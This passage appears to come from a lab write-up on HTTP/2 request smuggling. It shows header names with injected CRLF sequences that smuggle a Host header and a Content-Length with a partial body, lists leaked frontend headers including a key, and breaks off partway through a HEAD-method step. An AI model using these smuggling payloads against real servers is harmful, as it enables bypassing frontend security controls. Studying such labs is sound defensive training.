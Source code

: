     Name: foo: bar/r/n
          Host: abc.com/r/n

    Value: x

Notice we successfully inject a `Host` header via the error response. 
Base on this process: ![](image0.png)
To the search request, change the method to `POST` and add this header:

    Name: foo: bar/r/n
          Content-Length: 110/r/n
          /r/n
          search=

    Value: x

Notice in the response we found this 3 hidden headers:

    X-SSL-VERIFIED: 0
    X-SSL-CLIENT-CN: null
    X-FRONTEND-KEY: 4589371175976603

Base on this process: ![](image1.png)
To the `GET / HTTP/2` request, change the method to `HEAD` (to make the frontend read the content with length specified by the `Content-Length` response header) and add this header:
